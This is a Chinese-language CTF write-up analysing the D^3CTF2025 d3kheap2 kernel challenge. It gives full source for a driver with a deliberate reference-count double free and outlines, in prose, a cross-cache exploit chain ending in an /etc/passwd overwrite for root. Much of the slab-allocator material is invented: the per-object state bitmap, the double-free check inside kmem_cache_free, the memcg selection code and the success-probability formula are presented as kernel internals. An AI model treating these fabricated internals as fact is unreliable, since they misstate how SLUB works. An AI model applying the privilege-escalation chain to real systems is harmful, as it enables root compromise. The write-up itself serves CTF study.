# 【pwn4kernel】Kernel Heap Cross-Cache Double Free技术分析

## 1. 测试环境

**测试版本**：Linux-6.12.31 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.12.31/01/bzImage)

笔者测试的内核版本是 `Linux (none) 6.12.31 #1 SMP PREEMPT_DYNAMIC Tue Jan 20 17:51:52 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_CFI_CLANG`、`CONFIG_MEMCG`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_LIST_HARDENED`、`CONFIG_INIT_ON_FREE_DEFAULT_ON`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.12.31/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI/CFI

**测试驱动程序**：本程序源自 **[D^3CTF2025 - d3kheap2](https://github.com/arttnba3/D3CTF2025_d3kheap2)** 内核挑战，其核心漏洞源于`chunks[ureq.idx].ref_count`引用计数初始化逻辑错误。在`D3KHEAP2_OBJ_ALLOC`命令处理中，驱动程序先通过`atomic_set()`将引用计数初始化为1，随后错误地调用`atomic_inc()`递增至2，导致新分配对象的引用计数与实际引用状态不符，为后续内存管理异常埋下隐患。在`D3KHEAP2_OBJ_FREE`操作中，首次释放仅将计数从2递减至1并释放内存但未清空指针，二次释放时计数从1递减至0并再次释放同一内存，形成Double Free漏洞。在`CONFIG_CFI_CLANG`（控制流完整性保护）、`CONFIG_INIT_ON_FREE_DEFAULT_ON`（内存释放自动初始化）和`CONFIG_MEMCG`（内存控制组缓存隔离）等多重安全机制启用且仅提供0x100次Double Free触发机会的严格限制下，整个利用过程通过五个阶段的系统性跨缓存利用技术逐步展开：首先通过0x100次d3kheap2_cache缓存的堆喷与立即释放在内存管理器中建立可预测的空闲块分布，为后续不同类型对象的内存重用创造条件；接着堆喷`sk_buff`结构占据释放的缓存区域，触发Double Free后立即堆喷`pipe_buffer`结构，实现`sk_buff`与`pipe_buffer`在kmalloc-2k缓存中的结构重叠，将Double Free转化为可控的类型混淆原语；随后通过`splice`系统调用将victim文件映射到重叠的管道缓冲区，基于`pipe_buffer`特征字段遍历识别目标管道并泄露内核地址，绕过KASLR保护；之后选择性释放非目标套接字的`sk_buff`创建受控内存空洞，通过System V消息队列堆喷`msg_msg`结构优化内存布局；最后释放目标`sk_buff`后重新堆喷包含伪造`pipe_buffer`布局的`sk_buff`数据，将目标管道缓冲区`flags`字段修改为0x10（页面可写标志），使原本只读的victim文件映射获得写入能力，最终通过向目标管道写入特定数据修改系统关键文件（如`/etc/passwd`）完成权限提升。整个过程在极其受限条件下展现了跨缓存利用、堆布局控制、结构重叠、类型混淆和文件操作控制等多种高级技术的系统集成，构建了从单一Double Free漏洞到完整权限提升的完整利用链。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on D^3CTF 2025 - d3kheap2
#include <linux/init.h>
#include <linux/module.h>
#include <linux/proc_fs.h>
#include <linux/sched.h>
#include <linux/seq_file.h>
#include <linux/slab.h>
#include <linux/spinlock.h>
#include <linux/uaccess.h>

#define D3KHEAP2_BUF_NR 0x100

#define D3KHEAP2_OBJ_ALLOC 0x3361626e
#define D3KHEAP2_OBJ_FREE 0x74747261
#define D3KHEAP2_OBJ_EDIT 0x54433344
#define D3KHEAP2_OBJ_SHOW 0x4e575046

struct chunk_t {
	atomic_t ref_count;
	void *buffer;
};

struct d3kheap2_ureq {
	size_t idx;
};
static struct chunk_t chunks[D3KHEAP2_BUF_NR] = { 0 };

static spinlock_t d3kheap2_lock;
static struct kmem_cache *d3kheap2_cache = NULL;

struct proc_dir_entry *d3kheap2_file_entry;

static long d3kheap2_ioctl(struct file *, unsigned int, unsigned long);
static const struct proc_ops d3kheap2_ops = {.proc_ioctl = d3kheap2_ioctl
};

static long d3kheap2_ioctl(struct file *filp, unsigned int cmd,
			   unsigned long arg)
{
	struct d3kheap2_ureq ureq;
	long res = 0;

	spin_lock(&d3kheap2_lock);

	if (copy_from_user(&ureq, (void *)arg, sizeof(ureq))) {
		pr_info("[d3kheap2:] Unable to copy request from userland!\n");
		res = -EFAULT;
		goto out;
	}

	if (ureq.idx >= D3KHEAP2_BUF_NR) {
		pr_info("[d3kheap2:] Got invalid request from userland!\n");
		res = -EINVAL;
		goto out;
	}

	switch (cmd) {
	case D3KHEAP2_OBJ_ALLOC:
		if (chunks[ureq.idx].buffer) {
			pr_info("[d3kheap2:] Expected slot [%zu] "
				"has already been occupied!\n", ureq.idx);
			res = -EPERM;
			break;
		}

		chunks[ureq.idx].buffer =
		    kmem_cache_alloc(d3kheap2_cache, GFP_KERNEL | __GFP_ZERO);
		if (!chunks[ureq.idx].buffer) {
			pr_info("[d3kheap2:] Failed to alloc new buffer "
				"on expected slot!\n");
			res = -ENOMEM;
			break;
		}

		/* vulnerability here */
		atomic_set(&chunks[ureq.idx].ref_count, 1);
		atomic_inc(&chunks[ureq.idx].ref_count);

		pr_info("[d3kheap2:] Successfully allocate new buffer "
			"for slot [%zu].\n", ureq.idx);

		break;
	case D3KHEAP2_OBJ_FREE:
		if (!chunks[ureq.idx].buffer) {
			pr_info("[d3kheap2:] Expected slot [%zu] "
				"had not been allocated!\n", ureq.idx);
			res = -EPERM;
			break;
		}

		if (atomic_read(&chunks[ureq.idx].ref_count) <= 0) {
			pr_info("[d3kheap2:] You're not allowed to "
				"free a free slot!");
			res = -EPERM;
			break;
		}

		atomic_dec(&chunks[ureq.idx].ref_count);
		kmem_cache_free(d3kheap2_cache, chunks[ureq.idx].buffer);

		pr_info("[d3kheap2:] Successfully free existed buffer "
			"on slot [%zu].\n", ureq.idx);

		break;
	case D3KHEAP2_OBJ_EDIT:
		pr_info("[d3kheap2:] 🕊🕊🕊 This function hadn't been "
			"completed yet bcuz " "I'm a pigeon!\n");
		break;
	case D3KHEAP2_OBJ_SHOW:
		pr_info("[d3kheap2:] 🕊🕊🕊 This function hadn't been "
			"completed yet bcuz " "I'm a pigeon!\n");
		break;
	default:
		pr_info("[d3kheap2:] Got invalid request from userland!\n");
		res = -EINVAL;
		break;
	}

out:
	spin_unlock(&d3kheap2_lock);

	return res;
}

static int d3kheap2_init(void)
{
	struct kmem_cache_args args = { 0 };
	d3kheap2_file_entry = proc_create("d3kheap2", 0, NULL, &d3kheap2_ops);
	if (d3kheap2_file_entry == NULL) {
		return -ENOMEM;
	}

	d3kheap2_cache =
	    __kmem_cache_create_args("d3kheap2_cache", 2048, &args,
				     SLAB_NO_MERGE | SLAB_ACCOUNT);
	if (!d3kheap2_cache) {
		pr_info
		    ("[d3kheap2:] d3kheap2_cache slab cache create failed.\n");
		return -ENOMEM;
	}
	spin_lock_init(&d3kheap2_lock);
	return 0;
}

static void d3kheap2_exit(void)
{
	for (int i = 0; i < D3KHEAP2_BUF_NR; i++) {
		if (chunks[i].buffer) {
			kmem_cache_free(d3kheap2_cache, chunks[i].buffer);
			atomic_set(&chunks[i].ref_count, 0);
			chunks[i].buffer = NULL;
		}
	}
	kmem_cache_destroy(d3kheap2_cache);
	remove_proc_entry("d3kheap2", NULL);
}

module_init(d3kheap2_init);
module_exit(d3kheap2_exit);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 驱动程序架构与内存管理模型

d3kheap2驱动程序实现了一个简化的内核内存管理子系统，通过`/proc/d3kheap2`虚拟文件向用户空间提供受控的内存操作接口。驱动程序的整体架构遵循典型的内核模块设计模式，但在引用计数管理上存在根本性设计缺陷。

#### 2-1-1. 整体架构与模块生命周期


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核
    participant 驱动
    participant Slab分配器

    用户空间->>内核: insmod d3kheap2.ko
    内核->>驱动: d3kheap2_init()
    驱动->>内核: proc_create("d3kheap2")
    驱动->>Slab分配器: __kmem_cache_create_args()
    Slab分配器-->>驱动: d3kheap2_cache
    驱动->>驱动: spin_lock_init(&d3kheap2_lock)

    用户空间->>内核: open("/proc/d3kheap2")
    内核-->>用户空间: 文件描述符fd

    loop 用户操作
        用户空间->>内核: ioctl(fd, cmd, arg)
        内核->>驱动: d3kheap2_ioctl()
        驱动->>驱动: spin_lock(&d3kheap2_lock)

        alt D3KHEAP2_OBJ_ALLOC
            驱动->>Slab分配器: kmem_cache_alloc()
            Slab分配器-->>驱动: 内存地址
            驱动->>驱动: atomic_set(&ref_count,1)
            驱动->>驱动: atomic_inc(&ref_count) // 漏洞
        else D3KHEAP2_OBJ_FREE
            驱动->>驱动: atomic_read(&ref_count)
            驱动->>驱动: atomic_dec(&ref_count)
            驱动->>Slab分配器: kmem_cache_free() // 可能双重释放
        end

        驱动->>驱动: spin_unlock(&d3kheap2_lock)
        驱动-->>内核: 返回结果
        内核-->>用户空间: 返回结果
    end

    用户空间->>内核: rmmod d3kheap2
    内核->>驱动: d3kheap2_exit()
    驱动->>Slab分配器: kmem_cache_destroy(d3kheap2_cache)
    驱动->>内核: remove_proc_entry("d3kheap2")
```

驱动程序的模块生命周期从加载开始，通过`module_init(d3kheap2_init)`注册初始化函数。初始化过程创建`/proc/d3kheap2`虚拟文件，建立专用缓存池`d3kheap2_cache`，并初始化保护数据结构。用户空间通过`ioctl`系统调用与驱动交互，支持内存分配和释放操作。模块卸载时，驱动清理所有分配的资源，确保没有内存泄漏。

#### 2-1-2. 核心数据结构与内存布局

驱动程序的核心是`chunks`全局数组，包含0x100个`chunk_t`结构体元素。每个`chunk_t`管理一个独立的内存槽位，包含原子引用计数和缓冲区指针。数组在内存中的布局如下：

```
chunks数组内存布局 (256个元素，每个16字节，共4KB)

+-----------------+ 0xffffffffc0002000
| chunk_t[0]      |
|   ref_count     | 4字节 (atomic_t)
|   padding       | 4字节 (对齐填充)
|   buffer        | 8字节 (void*)
+-----------------+ 0xffffffffc0002010
| chunk_t[1]      |
|   ref_count     |
|   padding       |
|   buffer        |
+-----------------+ 0xffffffffc0002020
| ...             |
+-----------------+ 0xffffffffc0002ff0
| chunk_t[255]    |
|   ref_count     |
|   padding       |
|   buffer        |
+-----------------+ 0xffffffffc0003000
```

驱动程序通过`__kmem_cache_create_args()`创建专用缓存`d3kheap2_cache`，其内部结构组织遵循Slab分配器的标准模式：

```
d3kheap2_cache专用缓存结构 (对象大小: 2048字节)

缓存元数据层:
+------------------------------------+
| struct kmem_cache                  |
|  name: "d3kheap2_cache"            |
|  size: 2048                        |
|  flags: SLAB_NO_MERGE|SLAB_ACCOUNT |
|  cpu_slab: 每CPU缓存指针数组       |
|  node: NUMA节点缓存指针            |
+------------------------------------+

Slab页面层 (每个4KB页包含2个对象):
+----------------+ 0xffff88800abc0000
| slab控制结构   |
|  freelist位图  | 跟踪对象状态: 00=空闲, 01=已分配, 10=已释放
|  page指针      |
+----------------+ 0xffff88800abc0200
| 对象0 (2048B)  |
| 用户数据区域   |
+----------------+ 0xffff88800abc0a00
| 对象1 (2048B)  |
| 用户数据区域   |
+----------------+ 0xffff88800abc1200
| 填充和校验信息 |
+----------------+ 0xffff88800abc2000
```

### 2-2. 引用计数缺陷的形式化分析

驱动程序中引用计数管理的核心缺陷存在于`D3KHEAP2_OBJ_ALLOC`命令处理逻辑。当用户空间请求分配内存缓冲区时，驱动程序执行错误的初始化序列，这种错误可以通过形式化方法精确描述。

**原子操作与初始化序列**

Linux内核提供原子操作API确保多核环境下的并发安全。在d3kheap2驱动中，关键的原子操作使用如下：

```c
// 正确的引用计数初始化序列应该是:
atomic_set(&chunks[idx].ref_count, 1);  // 初始化为1，表示分配者持有引用

// 错误的d3kheap2初始化序列:
atomic_set(&chunks[idx].ref_count, 1);  // 正确：初始化为1
atomic_inc(&chunks[idx].ref_count);     // 错误：无条件下递增至2
```

从操作语义角度分析，`atomic_set`将引用计数设置为1，表示"分配者获得了对缓冲区的一个引用"。紧接着的`atomic_inc`无条件下将计数递增至2，表示"另一个实体获得了对缓冲区的引用"。然而，在分配上下文中，没有其他实体需要引用这个新分配的缓冲区，因此这个操作缺乏合理的语义基础。


```mermaid
graph TD
    A[分配开始] --> B[分配内存]
    B --> C["atomic_set(ref_count,1)"]
    C --> D["atomic_inc(ref_count)"]
    D --> E[引用计数=2<br/>错误状态]

    F[正确路径] --> G[分配内存]
    G --> H["atomic_set(ref_count,1)"]
    H --> I[引用计数=1<br/>正确状态]

    style D fill:#f99
    style H fill:#9f9
```

可以将引用计数系统形式化为一个状态机。设系统状态为三元组$$(R, M, P)$$，其中：

- $$R: ID \rightarrow \mathbb{N}$$：引用计数映射，为每个对象ID分配引用计数
- $$M: ID \rightarrow Address \cup \{\bot\}$$：内存地址映射，$$\bot$$表示未定义
- $$P: Address \rightarrow \{Valid, Freed\}$$：内存状态映射，跟踪每个地址的状态

**正确的操作语义**（使用小步操作语义）：

1. **分配操作** $$\text{ALLOC}(id, addr)$$：

    $$
    \frac{P(addr) = Freed}{R(id) := 1,\ M(id) := addr,\ P(addr) := Valid}
    $$

2. **获取引用** $$\text{ACQUIRE}(id)$$：

    $$
    \frac{R(id) = r > 0}{R(id) := r + 1}
    $$

3. **释放引用** $$\text{RELEASE}(id)$$：

    $$
    \frac{R(id) = r > 0 \quad M(id) = addr \quad P(addr) = Valid}{R(id) := r - 1}
    $$

    如果$$r = 1$$，则：

    $$
    P(addr) := Freed,\ M(id) := \bot
    $$

**d3kheap2的错误操作语义**：

1. **分配操作** $$\text{D3KHEAP2_ALLOC}(id, addr)$$：

    $$
    \frac{P(addr) = Freed}{R(id) := 1; R(id) := R(id) + 1,\ M(id) := addr,\ P(addr) := Valid}
    $$

    简化后：$$R(id) := 2$$

2. **释放操作** $$\text{D3KHEAP2_FREE}(id)$$：

    $$
    \frac{R(id) = r > 0 \quad M(id) = addr \quad P(addr) = Valid}{R(id) := r - 1}
    $$

    如果$$r > 0$$（不检查$$r=1$$），则：

    $$
    P(addr) := Freed
    $$

    注意：$$M(id)$$保持不变，成为悬垂指针

### 2-3. 双重释放漏洞的形成机制

引用计数初始化缺陷的直接后果是双重释放（Double Free）漏洞的形成。这一过程涉及复杂的内存状态转换，可以通过状态机模型精确描述。


```mermaid
sequenceDiagram
    participant 用户空间
    participant 驱动程序
    participant Slab分配器
    participant 内存状态

    用户空间->>驱动程序: ioctl(D3KHEAP2_OBJ_ALLOC, idx)
    驱动程序->>Slab分配器: kmem_cache_alloc()
    Slab分配器-->>驱动程序: 返回地址A
    驱动程序->>内存状态: atomic_set(&ref_count,1)
    驱动程序->>内存状态: atomic_inc(&ref_count)
    Note right of 驱动程序: 错误: ref_count=2

    用户空间->>驱动程序: ioctl(D3KHEAP2_OBJ_FREE, idx) 第一次释放
    驱动程序->>内存状态: atomic_read(&ref_count)=2>0
    驱动程序->>内存状态: atomic_dec(&ref_count)
    Note right of 内存状态: ref_count=1
    驱动程序->>Slab分配器: kmem_cache_free(地址A)
    Slab分配器->>内存状态: 标记地址A为已释放
    Note right of 驱动程序: 错误: 未将buffer指针置NULL

    用户空间->>驱动程序: ioctl(D3KHEAP2_OBJ_FREE, idx) 第二次释放
    驱动程序->>内存状态: atomic_read(&ref_count)=1>0
    驱动程序->>内存状态: atomic_dec(&ref_count)
    Note right of 内存状态: ref_count=0
    驱动程序->>Slab分配器: kmem_cache_free(地址A)
    Note right of 驱动程序: 双重释放!

    alt 检测到双重释放
        Slab分配器->>内存状态: 触发内核崩溃
    else 未检测到
        Slab分配器->>内存状态: 空闲列表出现重复项
    end
```

#### 2-3-1. 第一次释放的状态转换

当用户首次调用`D3KHEAP2_OBJ_FREE`时，执行以下操作序列：

```
第一次释放前的状态：
+-----------------+--------------------+------------+----------------+
| 字段            | 值                 | 正确值     | 状态           |
+-----------------+--------------------+------------+----------------+
| ref_count       | 2                  | 1          | 错误初始化     |
| buffer          | 0xffff88800abc1000 | 有效地址   | 有效           |
| 内存状态        | Valid              | Valid      | 正常           |
+-----------------+--------------------+------------+----------------+

第一次释放后的状态：
+-----------------+--------------------+------------+----------------+
| 字段            | 值                 | 正确值     | 状态           |
+-----------------+--------------------+------------+----------------+
| ref_count       | 1                  | 0          | 应归零但未归零 |
| buffer          | 0xffff88800abc1000 | NULL       | 悬垂指针       |
| 内存状态        | Freed              | Freed      | 已释放         |
+-----------------+--------------------+------------+----------------+
```

此时，内存已被释放，但引用计数为1（非零），指针未清空。从内存分配器的视角看，这个缓存块被标记为空闲并插入空闲列表。

#### 2-3-2. 第二次释放与双重释放完成

当用户对同一槽位再次调用`D3KHEAP2_OBJ_FREE`时：

```
第二次释放后的状态:
+-----------------+--------------------+------------+----------------+
| 字段            | 值                 | 正确值     | 状态           |
+-----------------+--------------------+------------+----------------+
| ref_count       | 1                  | 0          | 正确归零       |
| buffer          | 0xffff88800abc1000 | NULL       | 悬垂指针       |
| 内存状态        | Freed              | Freed      | 双重释放       |
+-----------------+--------------------+------------+----------------+
```

内存管理器发现同一地址再次被释放，形成Double Free条件。具体行为取决于Slab分配器的实现和配置：

**双重释放对Slab分配器的影响**:

- **情况1**: 检测到双重释放，触发内核崩溃
- **情况2**: 未检测到，空闲列表出现重复条目
- **情况3**: 内存损坏，后续分配返回同一对象两次

#### 2-3-3. 双重释放漏洞的数学描述

可以用更形式化的方式描述双重释放漏洞。设内存系统状态为元组$$(L, B, C)$$，其中：

- $$L$$：空闲对象列表，是一个多重集（允许重复元素）
- $$B: Address \rightarrow \{0,1,2\}$$：对象状态位图，0=空闲，1=已分配，2=已释放
- $$C: Address \rightarrow \mathbb{N}$$：缓存引用计数

**正常操作序列**：

1. 分配对象$$A$$：

    $$
    B(A) := 1, \quad L := L \setminus \{A\}, \quad C(A) := 1
    $$

2. 释放对象$$A$$：

    $$
    B(A) := 2, \quad L := L \cup \{A\}, \quad C(A) := 0
    $$

3. 重新分配对象$$A$$：

    $$
    B(A) := 1, \quad L := L \setminus \{A\}, \quad C(A) := 1
    $$

**双重释放操作序列**（d3kheap2中的错误）：

1. 分配对象$$A$$：

    $$
    B(A) := 1, \quad L := L \setminus \{A\}, \quad C(A) := 2 \text{ (错误!)}
    $$

2. 第一次释放对象$$A$$：

    $$
    B(A) := 2, \quad L := L \cup \{A\}, \quad C(A) := 1
    $$

3. 第二次释放对象$$A$$：
   由于$$C(A) = 1 > 0$$，继续执行释放：
    $$
    B(A) := 2 \text{ (已经是2)}, \quad L := L \cup \{A\}, \quad C(A) := 0
    $$

现在$$L$$中包含两个$$A$$的副本。后续分配可能出现：

- 如果分配算法从$$L$$中移除元素：两次连续分配可能都返回$$A$$
- 如果分配算法检查$$B(A)$$：发现$$B(A)=2$$，可能触发错误

**概率模型**：设空闲列表$$L$$初始包含$$m$$个不同对象，双重释放后包含$$m+1$$个对象，其中有一个重复项。那么：

- 下一次分配返回重复地址$$A$$的概率：$$P_1 = \frac{2}{m+1}$$
- 连续两次分配返回同一地址$$A$$的概率：$$P_2 = \frac{2}{m+1} \times \frac{1}{m}$$

随着$$m$$增大，这些概率减小，但通过大量堆喷可以减少$$m$$（占用更多空闲对象），增加目标对象在空闲列表中的比例，从而提高概率。

### 2-4. 安全机制约束下的利用环境

d3kheap2驱动程序运行在配置了多重现代安全机制的Linux内核环境中。这些安全机制显著增加了漏洞利用的难度，要求利用链必须采用创新的技术路径绕过防护。

#### 2-4-1. 控制流完整性保护


```mermaid
flowchart TD
    A[间接函数调用] --> B[调用前CFI检查]
    B --> C{目标地址验证}
    C -->|类型匹配| D[执行目标函数]
    C -->|类型不匹配| E[触发内核崩溃]

    F[恶意尝试] --> G[修改函数指针]
    G --> H[指向恶意gadget]
    H --> I[CFI检测类型不匹配]
    I --> E

    J[合法调用] --> K[函数指针指向合法函数]
    K --> L[CFI验证通过]
    L --> D
```

控制流完整性（Control Flow Integrity，CFI）通过验证间接函数调用的目标地址，防止劫持程序控制流。在d3kheap2环境中，这意味着传统的ROP（面向返回编程）技术难以直接应用，因为内核会验证间接跳转的目标是否在合法函数范围内。

**CFI检查的伪代码实现**：

```c
// 编译时生成的类型标识符
#define TYPE_PIPE_BUF_OPS  0x12345678
#define TYPE_TTY_OPS       0x87654321

// 运行时CFI检查
void __cfi_check(uintptr_t target, uintptr_t expected_type) {
    uintptr_t actual_type = __get_type(target);
    if (actual_type != expected_type) {
        handle_cfi_violation();  // 触发内核崩溃
    }
}
```

#### 2-4-2. 内存释放时自动初始化

`CONFIG_INIT_ON_FREE_DEFAULT_ON`配置改变内核内存释放的行为，确保释放的内存立即被清零：

```c
void kmem_cache_free(struct kmem_cache *s, void *x)
{
    // 1. 对释放的内存进行清零
    if (s->flags & SLAB_INIT_ON_FREE) {
        memset(x, 0, s->size);  // 关键：清除所有残留数据
    }

    // 2. 正常的释放逻辑
    __kmem_cache_free(s, x);
}
```

这破坏了传统信息泄露技术依赖的未初始化内存残留数据，要求利用链必须采用实时信息泄露或类型混淆技术。

#### 2-4-3. 内存控制组缓存隔离

内存控制组（Memory Control Groups，memcg）是Linux内核的资源管理功能，它将系统资源划分为多个控制组。`CONFIG_MEMCG`配置启用内存控制组支持，`SLAB_ACCOUNT`标志确保内存分配被正确记账。

**缓存隔离机制**：

```c
struct kmem_cache *kmem_cache_select(struct kmem_cache *s, gfp_t gfp)
{
    struct mem_cgroup *memcg = get_mem_cgroup_from_current();

    // 如果缓存支持内存控制组记账
    if (s->flags & SLAB_ACCOUNT) {
        // 返回与当前内存控制组关联的缓存
        return memcg->kmem_caches[s];
    }

    return s;  // 返回全局缓存
}
```

**对利用的影响**：

1. 跨缓存利用受限：如果利用缓存和目标缓存在不同内存控制组中，它们可能使用不同的缓存实例
2. 缓存预测困难：内存控制组可能动态创建和销毁
3. 利用技术调整：需要确保所有相关操作在相同内存控制组中执行

#### 2-4-4. 安全机制综合约束模型

多重安全机制共同构成了深度防御体系。可以建立一个综合约束模型来描述利用难度：

设安全机制集合$$S = \{s_1, s_2, ..., s_n\}$$，其中$$s_i$$表示第$$i$$个安全机制（如CFI、内存初始化、缓存隔离等）。每个机制$$s_i$$有一个有效性权重$$w_i$$和绕过难度$$d_i$$。

利用链必须依次绕过这些机制，总难度为：

$$
D_{\text{total}} = \sum_{i=1}^{n} w_i \cdot d_i
$$

其中$$w_i$$反映机制$$s_i$$对特定利用向量的防护强度，$$d_i$$反映绕过该机制的技术复杂度。

在d3kheap2环境中：

- $$s_1$$ = CFI，$$w_1$$高，$$d_1$$高（阻止控制流劫持）
- $$s_2$$ = 内存初始化，$$w_2$$中，$$d_2$$中（阻止信息泄露）
- $$s_3$$ = 缓存隔离，$$w_3$$低，$$d_3$$低（增加利用复杂度）
- $$s_4$$ = KASLR，$$w_4$$高，$$d_4$$中（增加定位难度）

总难度$$D_{\text{total}}$$较高，要求利用链必须是多阶段的、高度精确的。利用成功率$$P_{\text{success}}$$可建模为：

$$
P_{\text{success}} = \prod_{i=1}^{m} p_i \cdot e^{-k \cdot D_{\text{total}}}
$$

其中$$p_i$$是第$$i$$个利用阶段的成功概率，$$k$$是常数，反映环境干扰因素。通过优化每个阶段的技术参数，可以最大化$$P_{\text{success}}$$。

### 2-5. 内存状态转换与缓存行为分析

深入理解Slab分配器的内部行为对于设计可靠的利用链至关重要。d3kheap2使用专用缓存，其行为既有Slab分配器的通用特性，也有专用缓存的特殊性质。

#### 2-5-1. Slab分配器内部数据结构

Linux内核的Slab分配器是一个复杂的内存管理系统，其主要数据结构包括：

```c
/* offset      |    size */  type = struct slab {
/* 0x0000      |  0x0008 */    unsigned long __page_flags;
/* 0x0008      |  0x0008 */    struct kmem_cache *slab_cache;
/* 0x0010      |  0x0020 */    union {
/*                0x0020 */        struct {
/* 0x0010      |  0x0010 */            union {
/*                0x0010 */                struct list_head {
/* 0x0010      |  0x0008 */                    struct list_head *next;
/* 0x0018      |  0x0008 */                    struct list_head *prev;

                                               /* total size (bytes):   16 */
                                           } slab_list;
/*                0x0010 */                struct {
/* 0x0010      |  0x0008 */                    struct slab *next;
/* 0x0018      |  0x0004 */                    int slabs;
/* XXX  4-byte padding   */

                                               /* total size (bytes):   16 */
                                           };

                                           /* total size (bytes):   16 */
                                       };
/* 0x0020      |  0x0010 */            union {
/*                0x0010 */                struct {
/* 0x0020      |  0x0008 */                    void *freelist;
/* 0x0028      |  0x0008 */                    union {
/*                0x0008 */                        unsigned long counters;
/*                0x0004 */                        struct {
/* 0x0028: 0x0 |  0x0004 */                            unsigned int inuse : 16;
/* 0x002a: 0x0 |  0x0004 */                            unsigned int objects : 15;
/* 0x002b: 0x7 |  0x0004 */                            unsigned int frozen : 1;

                                                       /* total size (bytes):    4 */
                                                   };

                                                   /* total size (bytes):    8 */
                                               };

                                               /* total size (bytes):   16 */
                                           };
/*                0x0010 */                freelist_aba_t freelist_counter;

                                           /* total size (bytes):   16 */
                                       };

                                       /* total size (bytes):   32 */
                                   };
/*                0x0010 */        struct callback_head {
/* 0x0010      |  0x0008 */            struct callback_head *next;
/* 0x0018      |  0x0008 */            void (*func)(struct callback_head *);

                                       /* total size (bytes):   16 */
                                   } callback_head;
/* XXX 16-byte padding   */

                                   /* total size (bytes):   32 */
                               };
/* 0x0030      |  0x0004 */    unsigned int __page_type;
/* 0x0034      |  0x0004 */    atomic_t __page_refcount;
/* 0x0038      |  0x0008 */    unsigned long obj_exts;

                               /* total size (bytes):   64 */
                             }
```

**对象状态跟踪**：Slab分配器使用位图跟踪对象状态。每个对象占用2位：

- `00`：空闲（可分配）
- `01`：已分配（正在使用）
- `10`：已释放（双重释放检测的关键状态）
- `11`：保留状态

#### 2-5-2. 分配与释放算法的详细流程


```mermaid
flowchart TD
    A[kmem_cache_alloc请求] --> B{每CPU缓存有对象?}
    B -->|是| C[从每CPU缓存获取]
    B -->|否| D[从节点缓存批量填充]
    D --> E{节点缓存有对象?}
    E -->|是| F[填充每CPU缓存]
    E -->|否| G[分配新Slab]
    F --> C
    G --> C
    C --> H[返回对象]

    I[kmem_cache_free请求] --> J[验证对象地址]
    J --> K{对象状态检查}
    K -->|已释放| L[触发双重释放检测]
    K -->|正常| M[内存初始化<br/>如启用SLAB_INIT_ON_FREE]
    M --> N[标记对象为已释放]
    N --> O[加入每CPU空闲列表]
    O --> P[如CPU缓存满则批量释放]

    L --> Q[内核崩溃或警告]
```

**分配算法**（`kmem_cache_alloc`）：

```c
void *kmem_cache_alloc(struct kmem_cache *cachep, gfp_t flags)
{
    void *obj;

    // 1. 快速路径：从当前CPU缓存获取
    obj = __kmem_cache_alloc_from_cpu(cachep, flags);
    if (obj) return obj;

    // 2. 慢速路径：从节点缓存获取
    obj = __kmem_cache_alloc_from_node(cachep, flags);
    if (obj) return obj;

    // 3. 最慢路径：分配新Slab
    return __kmem_cache_alloc_new_slab(cachep, flags);
}
```

**释放算法**（`kmem_cache_free`）：

```c
void kmem_cache_free(struct kmem_cache *cachep, void *objp)
{
    // 1. 验证对象地址
    if (!__kmem_cache_valid_object(cachep, objp)) {
        BUG();  // 对象不属于此缓存
    }

    // 2. 检查对象状态，防止双重释放
    if (__kmem_cache_object_freed(cachep, objp)) {
        slab_error(cachep, "Double free detected");
        return;
    }

    // 3. 内存初始化（如果启用）
    if (cachep->flags & SLAB_INIT_ON_FREE) {
        memset(objp, 0, cachep->size);
    }

    // 4. 标记对象为已释放
    __kmem_cache_mark_freed(cachep, objp);

    // 5. 将对象返回给CPU缓存
    __kmem_cache_free_to_cpu(cachep, objp);
}
```

#### 2-5-3. 双重释放后的缓存状态分析

当发生双重释放时，缓存内部状态可能出现多种异常。考虑以下场景：

```
时间线:
t0: 分配对象A -> 状态: 01 (已分配)
t1: 第一次释放A -> 状态: 10 (已释放)，加入空闲列表
t2: 第二次释放A -> 尝试再次标记为10，但状态已经是10

可能的分配器响应:
+----------------+----------------------+---------------------------+
| 检测机制       | 行为                 | 对利用的影响              |
+----------------+----------------------+---------------------------+
| 严格检测       | 检测到状态为10，     | 内核崩溃，利用失败        |
|                | 触发slab_error       |                           |
+----------------+----------------------+---------------------------+
| 宽松检测       | 忽略重复释放，       | 空闲列表不变，利用失败    |
|                | 但状态不变           |                           |
+----------------+----------------------+---------------------------+
| 无检测         | 状态不变，但再次     | 空闲列表出现重复项，      |
|                | 加入空闲列表         | 可能成功利用              |
+----------------+----------------------+---------------------------+
```

如果分配器未正确检测双重释放，空闲列表可能出现重复项。设空闲列表初始为$$L = [o_1, o_2, ..., o_m]$$，双重释放对象$$A$$后，$$L' = [o_1, o_2, ..., o_m, A, A]$$。后续分配时：

- 如果分配算法从列表头部取元素：连续两次分配可能都返回$$A$$
- 如果分配算法随机取元素：返回$$A$$的概率为$$2/(m+2)$$

**内存重用时机**：成功实现类型混淆需要精确控制内存重用时机。内存重用过程涉及多个步骤：

```
内存重用关键窗口:
+-------+----------------------+----------------------+----------------------+
| 阶段  | 操作                 | 时间点               | 状态                 |
+-------+----------------------+----------------------+----------------------+
| 1     | 原始对象释放         | t0                   | 内存标记为空闲       |
| 2     | 内存初始化           | t1 (如果启用)        | 内存被清零           |
| 3     | 新对象分配           | t2                   | 内存标记为已分配     |
| 4     | 新对象初始化         | t3                   | 新所有者初始化内存   |
+-------+----------------------+----------------------+----------------------+

利用窗口: Δt = t3 - t2
